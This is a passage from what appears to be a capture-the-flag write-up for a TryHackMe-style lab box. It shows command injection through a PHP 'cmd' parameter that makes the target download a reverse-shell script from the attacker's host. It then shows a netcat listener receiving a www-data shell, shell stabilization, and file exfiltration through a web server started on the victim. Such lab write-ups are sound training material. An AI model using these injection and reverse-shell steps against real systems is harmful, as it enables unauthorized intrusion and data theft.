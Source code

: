 ```shell
└─$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.13.63.118] from (UNKNOWN) [10.10.224.64] 33200
id                                                                                                                  
uid=33(www-data) gid=33(www-data) groups=33(www-data)  
```

### Reverse Shell (PHP File)

```shell
http://uahighschool.thm/assets/index.php?cmd=wget%20http://10.13.63.118:8080/rev.php
```
<br>

```shell
└─$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.13.63.118] from (UNKNOWN) [10.10.224.64] 33200
id                                                                                                                  
uid=33(www-data) gid=33(www-data) groups=33(www-data)  
```

## Exploration

<br>

> Now that we have a foothold on the system, we can stabilize the shell and begin to explore the system.

<br>

```shell
export TERM=xterm; python3 -c 'import pty;pty.spawn("/bin/bash")'
```
<br>

> We can see that there is a folder called images (as expected) but when we 'cd' to it we can now see that it contains two files, may as well grab them just incase there are useful for something such as steganography. I set up a web server on port 4445 on the victim machine, and simply used the browser to save the files I could also have just used wget / curl.

<br>

```shell
python3 -m http.server 4445
```
<br>

<p align="center" width="100%">
    <img width="33%" src="https://github.com/user-attachments/assets/d3fea185-4217-4467-a659-d4ac125454cb">
</p>

> Further exploration yields a passphrase.txt located in /var/www/Hidden_Content.
